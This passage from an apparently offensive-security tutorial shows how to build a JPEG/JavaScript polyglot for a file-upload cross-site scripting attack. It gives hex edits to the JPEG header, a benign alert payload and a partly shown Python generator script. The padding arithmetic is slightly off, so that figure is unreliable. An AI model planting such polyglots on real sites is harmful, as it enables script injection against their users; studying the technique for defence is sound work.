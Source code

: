 ```bash
2A 2F 3D 61 6C 65 72 74 28 22 74 65 73 74 22 29 3B 2F 2A
```

### [3. Start Hex Editor](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#3.-start-hex-editor)

Start Hex editor to modify our `evil.jpg`. We use `ghex` here but you can use your favorite HEX editor.

```bash
ghex evil.jpg
```

The original hex representation of the `evil.jpg` is as such follow:

```bash
FF D8 FF E0 00 10 4A 46 49 46 00 01 01 01 00 48 00 ...

# Details of the Hex
# FF D8: Start of image
# FF E0: Application default header
# 00 10: The length of the JPEG header (`00 10` represents 16 bytes)
```

### [4. Insert Our JavaScript into JPEG File](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#4.-insert-our-javascript-into-jpeg-file)

Now start inserting our payload.  
First we replace `00 10` after `FF D8 FF E0` with our `2F 2A (/*)`.

```bash
FF D8 FF E0 2F 2A 4A 46 49 46 00 01 01 01 00 48 00 ...
```

By this, the length of the JPEG header is **12074 bytes** (`0x2F2A` in decimal).

Since the size of our payload is **19 bytes** as below:

```bash
python3
>>> payload = b'*/=alert("test");/*'
>>> len(payload)
19
```

We need to pad out the remaining **12042 bytes** (**12074 - 16 - 19**) with nulls.  
Below is the Python code example to generate a polyglot JPEG file, which refers to [https://github.com/simplylu/jpeg_polyglot_xss/blob/main/exploit.py](https://github.com/simplylu/jpeg_polyglot_xss/blob/main/exploit.py).

```python
payload = b'*/=alert("test");/*'
input_file = 'evil_original.jpg'
output_file = 'evil.jpg'

a = open(input_file, 'rb').read()

# Get the length of the header
header_size = int(a.hex()[8:12], 16)
new_header_size = int(payload.hex()[2:4]+payload.hex()[:2], 16)

# Calculate the size of nulls for padding
null_size = new_header_size - header_size - 16

# Get start and end
start = a[:40]
end = a.hex()[40:]
```